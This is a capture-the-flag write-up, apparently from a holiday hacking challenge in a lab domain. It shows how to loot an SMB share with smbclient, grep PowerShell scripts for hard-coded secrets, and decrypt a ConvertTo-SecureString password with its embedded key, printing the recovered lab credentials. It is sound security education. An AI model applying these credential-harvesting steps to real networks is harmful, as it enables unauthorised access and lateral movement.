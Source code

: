# Yaaarrr! (Time to Plunder)

Now that I had a new set of credentials (`elf_svc:Snow2021!`), it was time to see what I could do with it. After some poking around, I discovered that with my new creds I can access the `//10.128.3.30/elfu_svc_shr` share via SMB! Opening it up with `smbclient`, I noticed that it contained a bunch of powershell files.

![SMB](img/obj8-8/img1.png)

I downloaded them all to the local dir with:
`prompt off` -- To turn off the "Are you sure?" ptompt
`mget *.*` -- Download absolutely everything


Now that I had the files stored locally, I could simply `grep` through everything. This was useful because now I can look for any hard-coded passwords or anything similar.

Searching for "passw" gave me a bunch of things, but I wanted to narrow it down more.

`grep -i passw *`

Then I remembered, Storing a password in Powershell generally calls upon the usage of converting text to a `SecureString` with `ConvertTo-SecureString` so I searched for that:

`grep 'ConvertTo-SecureString' *`

And I got a bit less. Some interesting files I particularly liked was `Encryption.ps1` and `HelperFunctions.ps1`, but after manually looking through everyone I discovered an interesting file: `GetProcessInfo.ps1`:

```powershell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
Invoke-Command -ComputerName 10.128.1.53 -ScriptBlock { Get-Process } -Credential $aCred -Authentication Negotiate
```

This simply invokes the `Get-Process` command on the `10.128.1.53` host. However the password apparently seems to be encrypted. I've seen this particular method performed before, and honestly I don't understand why it's even used since decrypting it is trivial. So trivial, I can show you right here. I'll simply write the following Powershell script:

```powershell
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)
$aCred.GetNetworkCredential() | fl
```

With the above, I can run everything up to the `$aCred` line and then just print out the password!

![Printing the Creds](img/obj8-8/img2.png)


Executing the above shows:

```text
UserName       : remote_elf
Password       : A1d655f7f5d98b10!
SecurePassword : System.Security.SecureString
Domain         : elfu.local
```

New credentials! What wonderous things will *you* unlock now?
